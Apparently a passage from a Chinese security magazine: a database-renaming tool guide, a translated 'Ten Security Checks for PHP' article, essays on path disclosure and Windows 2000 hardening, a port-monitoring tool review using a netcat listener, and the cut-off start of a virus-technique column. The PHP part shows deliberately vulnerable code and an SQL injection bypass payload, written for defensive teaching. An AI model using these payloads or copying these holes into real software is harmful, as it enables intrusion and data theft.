

图1　批量文件播种机的界面

2. 点击“选主目录”



图2　选择主目录

点击“选主目录”按钮来界定[批量文件播种机]处理文件的范围，以动网文章管理系统为例，选中后点击“确定”，如图 2 所示。

3. 搜索文件

点击“设定文件”，将需要进行操作的文件类型选中，再点击“确定”后，按下“搜索文件”按钮，将出现新复选框，在搜索代码区域填写所需要搜索的代码，以搜索 MDB 数据文件及存在 MDB 数据库调用文件为例，搜索存在 MDB 数据库调用的文件及所在位置，以便更改，如图 3 所示。当然，你也可以根据需要搜索你想要改动的文件及数据。



图3　搜索文件界面

4. 常规操作

实现批量的更改 MDB 文件名，如果在批量替换时，将 *.mdb 更换为 "../*.mdb"，可实现更改 MDB 文件的调用路径。当然，你同时也需要将 MDB 文件实际保存或移动到所转换的位置。如果数据库本身为 ASP 后缀的调用形式，也可以通过此方法将路径及文件名更改，如图 4 所示。以动网文章为例，是属于 ASP 后缀数据库形式。将要替换的内容及所要替换成的内容填写好后，点击“加到替换列表”，确定后，点击主面板上的常规按钮“处理文件”即可实现数据库文件名及文件位置的更改，实现初级安全设置。



图4　操作界面

## 安全措施补充说明：

1. 尽量禁止程序中的 upload 功能，或者尽可能缩小界定上传文件的后缀类型范围，因为入侵爱好者可以通过上传危险文件从而达到浏览整站内容及夺取服务器 ADMIN 权限的可能。
2. 经常到所下载程序的官方站点查看是否有其升级程序及漏洞补丁包。
3. 尽量选用经常升级的程序，这种防黑程度相对比较高，毕竟程序员勤快起码是对使用者负责的。

在编写程序的过程中，如果没有相应的安全检查便会导致程序漏洞百出、安全性严重不足。从 LB、BBSXP 等论坛的漏洞分析我们已经可以看出，其不少都是因为缺乏安全检查的缘故。那我们应该如何提高代码的安全性呢？看完下面这篇翻译文章，你一定不会失望！


# PHP 的 10 项安全检查

文／PsKey

Web 应用程序正逐渐成为对数据、服务和产品提供公共访问使用的一种流行方式，这是 Web 应用程序的根本优势所在，然而这些程序中的安全漏洞也是被广泛地披露和频繁地利用。编写程序时的确是很容易出现此意料之外的安全隐患，这点已经被一系列的著名 Web 程序证明，包括 PHPMY-Admin、PHPShop 和 FreeTrade，它们都曾有过严重漏洞。查找漏洞往往需要源代码，而一般的 Web 应用程序的代码又是开放的。因此，本文提供了 10 个步骤以帮助你在使用 PHP 编写程序的时候找出或避免诸如此类的安全漏洞。

## 一、存取文件时避免使用变量

试看如下代码：

```
// $lib_dir 是一任意变量
include($lib_dir . "functions.inc");
```

更糟的情况可能会是这样：

```
// $page 是从 URL 获取值的变量
include($page);
```

用户可以任意设置变量 $lib_dir 和 $page 的值，其中包含某特殊文件，如 /etc/passwd，也有可能是内置恶意代码的远程文件 http://www.some-site.com/whatever.php，这个代码可能删除文件、损坏数据库或改变变量值而保存身份鉴定状态。

### 1. 需要查找的内容

在代码中搜索如下函数：

- readfile
- fopen
- file
- include
- require

### 2. 可行的解决方案或改进方式

- 避免把变量作为文件名。上面的那个 $lib_dir 变量可以由 PHP 的 define 函数来定义取代。

- 利用合法文件名列表来一一检查，例如：

```
$valid_pages = array(
    "apage.php" => "",
    "another.php" => "",
    "more.php" => "");
if (!isset($valid_pages[$page])) {
    die("非法请求");
}
```

- 更多的保证变量不被恶意设置的信息请参阅下文中的“不要相信全局变量”一节。

- 利用 allow_url_fopen 和 open_basedir 配置变量来限制文件来源。

## 二、处理 SQL 语句中的特殊字符

一个很常见的错误就是，直接把用户提交的变量放到 SQL 查询语句中执行却不进行任何处理，下面这个脚本片段是用来验证由某个表单提交的用户名和密码：

```
$query = "SELECT * FROM users WHERE username='" . $username . "' AND password='" . $password . "'";
if (record_exists($query)) {
    echo "可以访问";
} else {
    echo "拒绝访问";
}
```

当用户提交 check.php?username=admin&password=x 时，这段代码可以正常工作；但当用户提交 check.php?username=admin&password=a%27+OR+1%3D1%271（我们这里假设 magic_quotes_gpc 是禁止的），password 便变成了 Password='a' or 1='1'，显然验证被绕开了。

php.ini 配置文件中的 magic_quotes_gpc 变量值设置为“on”，可以在一定程度上解决这个问题。这意味着 PHP 将会用反斜杠(\)来处理 GET、POST 以及 Cookie 数据，但为了避免出现一些莫名其妙的问题，magic_quotes_gpc 通常是被禁止的。在上面的代码中加一句 echo $username，你会发现所有的单引号（'）都被替换成为 \'。此外，要强调的一点是：有些变量 magic_quotes_gpc 是保护不了的，因为某些变量取值可能来自某个恶意用户通过正常程序操作修改的数据库记录或文件。

### 1. 需要查找的内容

根据你所使用的数据库软件来搜索相应的查询函数。例如，你使用的是 MySQL，就应该搜索 mysql_db_query 函数。

### 2. 可行的解决方案或改进方式

- 使用 addslashes 之类的函数把 SQL 语句中的引号和反斜杠用反斜杠过滤；
- 打开 magic_quotes_gpc 可能会有些帮助，但也不能全靠它（打开这个选项时，若使用 addslashes 函数会产生错误）；
- 如果你希望在 SQL 语句中所使用的变量包含数字，那就得确保其含有数字。你可以用各种不同的 PHP 内置函数（包括 sprintf、ereg 和 is_long）来检查变量。

## 三、不要相信全局变量

如果 register_globals 选项是打开的，PHP 会创建 HTTP 请求中 GET、POST 和 COOKIE 包含的每一个变量，这意味着非法用户可以无限制地设置变量。如下代码试图允许任意用户访问单个文章，而访问其他的文章则是需要验证的，具体是这样的：

```
php
// 假设 $article_id 是由 URL 设置的
if ($article_id == 0) {
    $guest_ok = true;
}

if (!$guest_ok) {
    // 用已定义函数来对用户进行认证
    check_auth();
}

```

这段代码似乎可以正常工作，因为 $article_id 变量一般会初始化为 false；但要是一个恶意用户提交 guest_ok=1 呢？他便可以浏览任意文章了。

另一个常见问题是，使用“记住密码”这一功能把用户的认证信息保存在 cookie 中，这样某些用户可能更改 cookie 值而冒充任意用户的身份登录系统。

### 1. 需要查找的内容

这个问题几乎有可能存在于你代码的任一角落，如下几个地方尤其需关注：
- 身份、权限验证部分；
- 变量没有进行初始化前的使用（可以使用 error_reporting 配置变量来提醒你：当你使用的变量没有被初始化时，它会给你警告）；
- 那些由 POST 或 GET 请求设置的变量的使用部分。

### 2. 可行的解决方案或改进方式

- 在 php.ini 文件中禁止 register_globals 选项，这样设置后你得使用 $HTTP_GET_VARS 和 $HTTP_POST_VARS 这样的联合数组来访问 GET 和 POST 的值，虽然这样很麻烦，但可以使程序更安全。

译者注：从 PHP 4.2.0 版本开始，php.ini 中的设置选项 register_globals 默认值变成了 off，使用自 PHP 4.1.0 版本引入的自动全局数组变量会更好些，当然 $HTTP_*_VARS 数组依然存在。

- 如果使用“记住密码”这项功能，可在 cookie 中包含一个密码或难猜的随机标志符（这功能可能带来其他的漏洞，如一个恶意用户和一个合法用户共同使用一台机器，他可以合法用户的身份获得访问权）；
- 初始化所有的全局变量，上面那个有缺陷的脚本应该在代码的开头把 guest_ok 初始化为 false；
- 确保 session 变量能正常工作；
- 确保全局变量不在 $HTTP_POST 或 $HTTP_GET 联合数组中。

## 四、解决文件上传所存在的隐患

这个实际上可归于“不可信任的全局变量”问题一类，但它值得我们把它单独拿出来讨论。当一文件上传后，PHP 脚本会给 PHP 所保存的上传文件一个临时文件名。不幸的是，任意用户都可以构造 URL 来设置这个值，比如说 /etc/passwd，这时 PHP 脚本处理的就不是什么上传文件了，它会直接把 /etc/passwd 复制到 Web 目录下某可以访问到的地方，或直接把内容反馈输出给用户的浏览器。

### 1. 需要查找的内容

检查所有处理文件上传的脚本。直接搜索 `type="file"` 可以更快地找到这些文件。

### 2. 可行的解决方案或改进方式

- 较新的 PHP 版本有 is_uploaded_file 和 move_uploaded_file 函数来保证脚本处理的确是上传文件；
- 如果你不能保证你的代码能否在新版本 PHP 下运行，请在 php.ini 中设置 upload_tmp_dir，并作严密检查以确保所处理的文件均在所设置目录中。

## 五、把特殊字符转换为 HTML 格式

试想一个用户把 `<blink>` 标签提交到论坛会发生什么事？如果你在保存或显示输出前未做任何处理，那么跟在 `<blink>` 后面的文字就都会闪烁。当然，这种攻击方式可以更具威胁，例如攻击者可以插入一段恶性的 javascript 代码。

> 译者注：`<blink>` 标记只适合于 NC 浏览器。

### 1. 需要查找的内容

检查由用户输入并将内容反馈输出的页面文件。

### 2. 可行的解决方案或改进方式

- ★ 在保存或显示输出前做些处理，可以利用 PHP 的内置函数 `htmlspecialchars` 或 `htmlentities` 来做到这点；
- ★ 如果你允许用户使用 HTML，最好限制他们只能使用诸如 `<b>`、`<i>` 一类的基本标记。

## 六、把 `.php` 作为所有脚本文件的后缀

很多程序员把 `.inc` 或 `.class` 作为库文件和配置文件的后缀，然后使用 `include` 函数调用它们。若某恶意用户直接请求这些以 `.inc` 或 `.class` 为后缀的文件，他将获取这些文件中的所有内容（包括 PHP 代码）。显然，这将导致敏感信息泄露。

### 1. 需要查找的内容

检查所有脚本的文件名。

### 2. 可行的解决方案或改进方式

- ★ 把 `.php` 作为所有脚本文件的后缀；
- ★ 不要把库文件和配置文件放在 Web 根目录下。

## 七、不要把重要文件放置在根目录下

许多 PHP 系统通过用户认证或访问控制列表限制用户只能访问普通文件或图片。然而，其子目录下通常保存有一些 PHP 脚本，这样可以通过浏览器以正确的 URL 直接看到这些脚本的源文件。另外，也不要把一些重要文件放在可执行程序的根目录下，比如说一张本应受到密码保护的图片。

### 1. 需要查找的内容

检查所有包含隐秘内容文件的目录设置。

### 2. 可行的解决方案或改进方式

- ★ 把重要文件放置在根目录之外；
- ★ 把这些重要内容保存到数据库中；
- ★ 利用 Web 平台的特性，如 apache 的 `.htaccess` 文件来避免用户直接访问这些文件目录。

## 八、提防共享服务器上的其他用户

许多 PHP 站点放置在多人同时使用的服务器之上，其他用户可能通过一个 php 脚本或 Webshell 来修改、访问或删除你的文件或得到数据库密码。另一个潜在的威胁是，其他恶意用户可能创建一个 session 文件（默认保存在 `/tmp` 目录下）来绕过你站点中的认证。

### 1. 需要查找的内容

如果你使用的是这样的服务器，可以用 `phpinfo` 函数来查看服务器的配置，同时也得检查敏感文件的权限设置。

### 2. 可行的解决方案或改进方式

- ★ 使用专用服务器，尽管价格不菲，但这笔花销带来了安全和效率；
- ★ 确保所用服务器打开了 `safe_mode` 选项（可以使用 `phpinfo` 函数查看），然而这样会使其他一些程序不能执行，会在一定程度上限制你站点的功能；
- ★ 设置文件权限，其他用户即使知道文件名也只能读（在 UNIX 系统上把目录权限设置为 `711`）。

## 九、避免错综复杂的变量类型

为了适应当前所用，PHP 经常转换变量的类型。这些问题很难发现，但它的确造成了 phpMyadmin 之类的流行软件的漏洞。我们来看看下面的代码：

```
php
<?php
    $users[0] = "";   // 游客
    $users[1] = "password1";
    $users[2] = "password2";

    // 检查用户提供的 $user_id 是否为 0、1 或 2
    if ($user_id < 0 || $user_id > 2 || !isset($user_id))

{
    die("Invalid user ID");
}

// 检查正规用户输入的密码是否正确
if ($user_id != 0 && $password != $users[$user_id])
{
    die("Password invalid");
}

// 告诉用户其所属类型
if ($user_id) {
    echo "You are an authenticated user";
} else {
    echo "You are a guest user";
}

```

代码似乎是对 `$user_id` 进行了“全面的检查”，但要是 `$user_id` 的值为 `00` 或 `a` 的时候，验证就被轻易地绕开了。

### 1. 需要查找的内容

这类缺陷是很难识别的，但如下几个地方是比较容易出问题的：

- 对用户输入的数字值进行比较判断的地方；
- 矛盾或多余的表达式，如把 `if ($x != 0)` 和 `if ($x)` 放在一起。

### 2. 可行的解决方案或改进方式

- 注意把用户输入值的类型转换为某特定类型；
- 使用像 `is_long` 这样的类型检查函数。

## 十、命令执行语句避免（或转化）用户输入

使用像 `exec` 和 `eval` 这样的函数，可以使你的程序变得更加灵活，但必须谨慎，要避免用户执行任意命令。

### 1. 需要查找的内容

检查所有能执行系统命令的函数或 PHP 代码：

- `eval`
- `preg_replace`（与 `"/e"` 开关一起使用时，替换字符串将被解释为 PHP 代码）
- `exec`
- `passthru`
- `system`
- `popen`
- `` ` ``（反引号，可以执行命令）

### 代码之外的讨论——牢固的整体安全设计

如上所有的步骤都是和编程有关的，但在着手编写程序之前，若能在整体上作出完善的考虑，很大程度上可以决定程序的安全性。如下有一些基本技巧：

- ★ 考虑采用 HTTPS 加密传输，这点很重要，哪怕你的私有信息并不那么重要，窃听者可以获取你的密码和 session 认证信息并利用它们来躲开你程序的安全验证。
- ★ 考虑采用主机/域名或 IP 地址来限制用户访问敏感页面。利用 Web 平台的特性如 apache 的 `.htaccess` 文件来做到这点，或者在脚本中使用诸如 `$REMOTE_ADDR` 之类的变量来检查。
- ★ 用已有的安全包来进行验证，如 PHPLib。

## 结论

任何语言都存在安全隐患，但如果我们能将注意力集中到这些弱点，便可避免很多安全漏洞。把本文所示的 10 个步骤作为日常编写、检查代码的一部分工作来实行，可以给我们带来更为安全的应用程序。

## 参考

- ★ A Study In Scarlet -- Exploiting Common Vulnerabilities in PHP Applications -- Shaun Clowes, SecureReality
- ★ Security flaws in PHP -- Jo Henrik Endrcrud, zez.org
- ★ PHP Manual -- Stig S?ther Bakken, et al, PHP.

原文：Ten Security Checks for PHP

原著：Clancy Malcolm `<clancym@donnet.com.au>`。

注：本文原为两部分，原文网址：http://www.oreillynet.com/pub/a//1150。

# 浅谈路径泄露

文 / Tread

路径泄露（Path Disclosure）是属于低风险等级（Low Risk）一类的缺陷，它的危害一般被描述为“攻击者可以利用此漏洞得到的信息对系统进行进一步的攻击”，提供 Web、FTP、SMTP 等公共服务的服务器都有可能出现物理路径泄露的问题。

我们比较常见的是与 Web 服务器有关的路径泄露公告。导致 Web 服务器路径泄露的原因有很多，可能是 Web 平台本身、脚本语言解释器、引擎插件、组件、辅助程序等一些原因造成的，但最有可能的是脚本编写错误导致的。很多时候，攻击者精心构造一个畸形的、超长的或不存在的文件请求，而这个请求是 Web 服务器没有预料且不能正确处理的，这时往往会返回出错信息，最直观的就是暴露物理路径。譬如，对于很多 CGI 论坛来说，提交一个不存在的 CGI 文件请求，或者提交一个没有输出的 CGI 文件的请求，它们会将网站本身所在的物理路径给暴露出来。笔者做过很多试验，的确非常轻松就可以拿到对方网站的物理路径。

得到物理路径到底有什么用？这是很多攻击者关心的问题。如果把“路径泄露”这个缺陷分化出去单独讨论，那肯定没有什么意义。但把它放到完整的入侵过程中来看，有些时候的确能给攻击者带来一些有用的信息，比如说：可以大致了解系统的文件目录结构；可以看出系统所使用的第三方软件；也说不定你因此得到了一个合法的用户名（因为很多人把自己的名字作为网站的目录名）。另外，就是很多时候你的攻击程序需要对方完整的物理路径。当然，当你发现路径是系统的默认路径时，你可能会说：哦，管理员的安全水平很低啊……也许你认为这些不值什么，但很多入侵行为持续绕了几个大圈子无功而返后，最后却还是利用了一个自己忽略的小缺陷成功了！漏洞无处不在，发现它是门艺术，利用它同样是门艺术。

那如何在 Web 服务中避免路径泄露？漏洞虽小，但俱“千里之堤，溃于蚁穴”。方法是有的，我这里还是现实点，拿大多数朋友选用的 Web 平台 IIS 来说，首先你得保证使用最新版本并打了最新补丁，包括 IIS、脚本语言解释器（如 Activeperl）、引擎插件、组件、辅助程序；其次是配置方面的问题，首当其冲的是“检查文件是否存在”，具体是：IIS／站点／属性／主目录／配置／应用程序映射／编辑／检查文件是否存在；这样做不仅可避免“请求不存在文件”泄露路径，还可阻挡一些其他攻击，如拒绝服务或溢出攻击。还记得 NSFOCUS 发现 ActivePerl 所带的一个动态链接库（perlIS.dll）在处理超长文件名时存在的一个缓冲区溢出漏洞吗？最简单的解决方法就是检查文件是否存在。

再者便是要求程序员编写规范脚本，这是最重要的。错误处理是各种语言编程中一个很重要的必不可少的部分，虽然每种语言都提供了完善的出错处理函数，但你也得正确使用它，如 Perl 中的“die”函数，如果没有在错误信息后面加上“\n”的话，就很可能导致物理路径泄露。然而，脚本程序员却一直忽略了这些问题，任何时候程序员都应该做好充分的考虑，给出完整的出错处理方案。

**后记：** 路径泄露是个广泛存在的缺陷，要彻底完整地分析它需要很多方面的知识，可惜的是一直没人来专门讨论这个话题。我们今天在此希望可以抛砖引玉，希望在这方面有比较深入研究的朋友继续投稿讨论。

## “安全配置和分析”图解教程

文／网络游侠

“安全配置和分析”是 Windows 2000 中用来分析和配置本地系统安全性的一个工具，可以通过图形化操作轻松完成系统安全配置。这就是说，即使你是一个和我一样的新手，也可以应用一些现成的模板来完成配置安全服务器的任务。

下面就让我们看一下“安全配置和分析”的实现吧：

1. 在“开始→运行”中敲上“MMC”，回车，就调出了控制台的界面。然后，点击“控制台→添加／删除管理单元”，如图 1 所示。


2. 接下来，系统就会提示你输入你要添加的管理模块了，我们要添加的是“安全配置和管理”，确认该选项被选择，然后点下面的“添加”，然后关闭该对话框，如图 2 所示。


3. 关闭之后在“控制台根节点”下面就会出现“安全配置和分析”，右键点击它，然后选择“打开数据库”，并选择你需要打开的安全数据库文件，如图 3 所示。


4. 接下来，你就会看到如图 4 所示的界面了。证明我们刚才的安全数据库读取成功。


5. 现在我们需要一个做好安全配置的模板，然后修改一下使用。所以，我们要在“安全配置和管理”的右键菜单中选择“导入模板”，此时你就会看到 Windows 2000 中内置的一些安全模板。双击就可以导入，如图5所示。


6. 导入模板之后，就是对此计算机的现在设置和模板中定义的不同了。选择右键菜单中的“立即分析计算机”，如图6所示。


7. 我们的爱机会出现下面的提示，正在比较现在设置和模板设置的不同，并列出比较的选项，如图7所示。


8. 成功了吧？你可以用手中的小老鼠点开控制台左边的内容看一看（我们以“本地策略－安全选项”为例）。右边详细内容中签名带有绿色“√”的表示你爱机的设置和我们刚才导入模板的设置基本一致，带有红色“×”的表示和基本配置有差异，需要我们做进一步配置，如图8所示。


9. 我们看一下不同选项的不同定义方法。右键点击“重命名来宾账户”选择“安全性”，出现窗口。在“在数据库中定义这个策略”前面打上一个“√”，然后在下面写上你要重命名的名字，然后确定。需要指出的是，下面的那句“这个设置只影响数据库，它不改变当前计算机的设置”，表明现在修改的只是安全数据库的内容，但是要等到数据库被指派之后才真正生效。确定之后，你会发现在窗口中的 Guest 已经改成了 youxia。但是，在配置这些设置之前计算机的来宾账号依然是 Guest，如图9所示。


10. 打开一个“数据库设置”中是“已启用”的选项，你可以选择“已停用”来停掉这个策略。如果把“在数据库中定义这个策略”前面的“√”去掉，那么就可以在数据库策略中去掉这个选项。点击“确定”之后，“数据库设置”中就会变成“没有定义”，如图10所示。


11. 在“未签名驱动程序的安装操作”安全性对话框中，我们可以指定我们要定义的策略。这里有3个选项：默认继续、允许安装但发出警告、禁止安装。如果选择了第3个，可以最大限度地增加我们服务器的稳定和安全系数（有过驱动程序出错进入不了系统的经历吧？只要禁止未签名的驱动程序就搞定了啊），如图11所示。


12. 打开“允许弹出可移动NTFS媒体”的安全性对话框，可以在下拉菜单中确定哪个用户可以使用该权限。可以根据自己的需要定义，如图12所示。


13. 设置“在密码到期前提示用户更改密码”这样的选项，要配合你为用户设置的密码到期时限来定义，注意一下。如果选择了14天，那么在密码过期前14天就会提示你该修改密码了，如图13所示。


14. 如果你把计算机的设置改成了导入模板的相同或近似设置，那么详细信息前面那个红色的“×”就会变成绿色的“√”。把需要修改的地方都改完之后，就要使我们上面所做的努力成为看得见的果实了。在控制台根节点下面“安全配置和分析”的右键菜单上选择“立即配置计算机”，如图14所示。


15. 系统就会按照我们刚才的配置在计算机上设置，如图15所示。


16. 如果你对系统完成了哪些操作不是很放心，可以右键单击“安全配置和分析”，然后选择“查看日志”，就会看到哪些设置成功完成，哪些失败了。如果失败了，你可以根据提示排除故障之后重新配置，如图16所示。


大家在上网的时候，常常想了解本地端口的使用情况，但用 netstat 命令又觉得麻烦，而且提供的信息不够详尽，那么试试 Antiy port 这款工具吧！它是一款绿色软件，而且功能强大，对于端口的使用情况更是一目了然。

## 让你“心知肚明”

文／朱平

## ——Antiy port 的使用

大家或许听过 Antiy Ghostbusters，大名鼎鼎的“捉鬼队”，一个专业级别的特洛伊木马检测和系统安全工具，不仅能清除已知木马，也能发现部分未知木马。自带应用程序网络访问管理功能，让用户可以设置应用程序的网络访问规则，切断未知木马的通讯。Antiy Port 为其同胞兄弟，同样处于 http://www.antiy.net。虽然名声还没有老太 Antiy Ghostbusters 大，但其特有的功能还是不能小瞧。软件很小，才 200 多 K，绿色软件，无须安装。软件运行界面如图 1 所示。

图1

从图 1，大家可以看出到本机所开的 TCP 和 UDP 协议端口及其所属 Process。这样你就能轻易发现可疑的木马程序进程及其在本机监听的端口。当然，你也可以用它来管理系统进程及对外服务等，是不是觉得很方便？

现在，我们就来模拟一次 Antiy Port 是如何发现可疑端口及其允许所属程序的。不用替我担心，我不会用木马在自己的电脑上实验的。我们用 NC（netcat.exe），大家听过、用过吧，锋利的“瑞士军刀”。我们首先利用 NC（c:\nc.exe）在本地监听一端口，我们选择 1414 端口吧，运行命令：`nc l p 1414`。

这样，NC 就在本机 1414 端口上监听着，等待外部连接。现在，我们运行 Antiy port，显示结果如图 2 所示。

图2

从图 2 大家可以发现，Local Port 处增加了 1414，所属 Process 为：`C:\nc.exe`。这样，我们就监测到运行 NC 所监听的端口及其所属 Process。是不是很简单？比你扫描快多了吧？

顺带再介绍一款相关工具——Fport.exe，DOS 界面下的“Antiy port”，产自 FoundStone，功能和 Antiy port 很相似，能列出系统中所有打开的 TCP/IP 和 UDP 端口，以及它们对应应用程序的完整路径、PID 标识、进程名称等信息。来看看一个运行实例图示，如图 3 所示。

图3

其实，在 DOS 下运行 netstat an，也能达到查看本机所监听端口的目的，不过其并没有列出所属运行程序。

> CVC（中国黑客公社）是由一群有着共同兴趣和理想、致力于病毒技术研究和普及的爱好者组成的民间组织，他们爱好和平，憎恨战争和破坏，他们关注的仅仅是技术，他们在精致的代码世界里寻找生命的律动。希望此专栏能够给那些喜欢探索并正在黑暗中摸索的心灵以正确的引导，让世界的一角露出曙光。我们坚信，对病毒技术的深入了解有助于我们找到防治病毒的有效方法，让我们一起探索神秘的病毒世界，找到战胜病毒的魔盒。

## Win32病毒基础系列之 API 地址的获取

很高兴，CVC 病毒专栏本期与大家见面了，从本期开始，CVC 将每期为大家提供一篇病毒与反病毒技术方面的基础文章。同时，也会不定期为大家提供一些高级病毒（反病毒）技术文章。希望可以用我们的行动赢得大家的支持。本期，我们便从最基本的技术讲起。

要了解病毒的原理，就必须明白如重定位、API 地址的搜索、本地文件的传染、网络文件的传染及隐藏等病毒常用的技术。如果想更深入一点，那么花指令、动态反跟踪、代码的加密、变形以及多态等等就往你的学习范畴之内了。

## 一、为什么要搜索 API 地址

